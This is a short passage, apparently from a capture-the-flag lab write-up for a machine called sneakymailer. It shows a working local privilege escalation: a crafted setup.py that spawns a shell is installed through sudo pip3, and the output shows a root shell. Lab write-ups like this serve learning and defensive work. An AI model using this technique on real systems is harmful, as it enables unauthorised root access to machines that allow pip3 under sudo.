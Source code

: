 It looks like we can run pip3 as root, which makes for a really easy priv-esc using GTFOBins:

```
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo /usr/bin/pip3 install $TF
...
Processing /tmp/tmp.e1onagifK7
# id
uid=0(root) gid=0(root) groups=0(root)
```

Voila, root!
